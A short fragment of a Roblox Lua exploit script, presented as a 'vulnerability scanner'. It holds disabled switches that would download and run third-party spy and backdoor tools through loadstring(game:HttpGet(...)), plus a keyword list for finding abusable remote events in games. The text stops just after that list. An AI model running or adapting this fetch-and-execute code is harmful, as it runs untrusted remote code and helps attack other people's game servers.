 CreateCMD("kill",function()
	--[[
	    Simple vulnerability scanner v1.1
	    Made by 0fiiz#7952
    ]]--


	local load_BackdoorEXE = false
	local load_SimplySpy = false
	local load_DestroyToolTest = false

	if load_SimplySpy == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/exxtremestuffs/SimpleSpySource/master/SimpleSpy.lua%22"))()
	end

	if load_BackdoorEXE == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua%22"))()
	end

	local PingWords = {
		"destroy",
		"delete",
		"del",
		"place",
		"remove",
		"replicate",
		"loadstring",
		"rev",
		"admin",
		"create",
		"property",
		"spawn",
		"clear",
		"trash",
		"fire",
		"bomb",
		"explode",
		"color",
		"update",
		"car",
		"money",
		"cheat",
		"data",
		"save",
		"build",
		"backdoor",
		"invis",
		"hide",
		"set"
	}

	local PossibleRemotes = {}

